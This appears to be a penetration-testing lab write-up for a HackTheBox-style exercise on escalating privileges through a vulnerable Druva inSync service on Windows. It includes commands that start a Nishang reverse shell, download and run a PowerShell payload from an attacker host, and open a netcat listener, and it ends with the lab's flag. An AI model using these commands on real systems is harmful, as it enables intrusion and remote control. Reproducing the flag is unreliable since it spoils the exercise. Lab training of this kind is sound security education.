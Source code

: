# Vulnerable Services

Some services/applications may allow us to escalate to SYSTEM and other may allow access to sensitive data such as files containing passwords.

**Enumerating Installed Programs**

```cmd-session
C:\htb> wmic product get name

Name
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4023057)
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127
VMware Tools
Druva inSync 6.6.3
Microsoft Update Health Tools
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910
Update for Windows 10 for x64-based Systems (KB4480730)
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127
```

From the output above Druva inSync 6.6.3 application is vulnerable to a command injection attack via an exposed RPC service.

{% embed url="https://www.exploit-db.com/exploits/49211" %}
Exploit to escalate our privilege
{% endembed %}

**Enumerating Local Ports**

Furthur enumeration to explore port 6064

```cmd-session
C:\htb> netstat -ano | findstr 6064

  TCP    127.0.0.1:6064         0.0.0.0:0              LISTENING       3324
  TCP    127.0.0.1:6064         127.0.0.1:50274        ESTABLISHED     3324
  TCP    127.0.0.1:6064         127.0.0.1:50510        TIME_WAIT       0
  TCP    127.0.0.1:6064         127.0.0.1:50511        TIME_WAIT       0
  TCP    127.0.0.1:50274        127.0.0.1:6064         ESTABLISHED     3860
```

**Enumerating Process ID**

Enumerate the process id 3324 from above

```powershell-session
PS C:\htb> get-process -Id 3324

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    149      10     1512       6748              3324   0 inSyncCPHwnet64
```

**Enumerating Running Service**

```powershell-session
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Status   Name               DisplayName
------   ----               -----------
Running  inSyncCPHService   Druva inSync Client Service
```

### Druva inSync Windows Client Local Privilege Escalation Example

**Modifying PowerShell PoC**

modify the `$cmd` variable from the link of the exploit above to our desired command (send us the reverse shell)

{% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}
Use this reverse shell
{% endembed %}



```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Modify the `$cmd` variable in the Druva inSync exploit PoC script to download our PowerShell reverse shell into memory.

```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.4:8080/shell.ps1')"
```

[modifying the PowerShell execution policy](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy)

## Assessment

Work through the steps above to escalate privileges on the target system using the Druva inSync flaw. Submit the contents of the flag in the VulServices folder on the Administrator Desktop.

<details>

<summary>Walkthrough</summary>

Add the following line to the nishang powershell reverse shell script

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 7890
```

![](<../../../.gitbook/assets/image (38).png>)

edit the exploit at tthe cmd variable to&#x20;

```
powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.5:8000/shell.ps1')
```

Move the exploit to the target host (the reverse shell powershell script still on the attack host)

Start a netcat listener (Using rlwrap)\_

```
rlwrap nc -lvnp 7890
```

Execute the exploit, The exploit will try to get the shell.ps1 from our system (make sure to run python server before hand) and then execute the shell.ps1&#x20;

At the listener we will get the shell as SYSTEM user.

<img src="../../../.gitbook/assets/image (115).png" alt="" data-size="original"> Aud1t\_th0se\_th1rd\_paRty\_s3rvices!

</details>
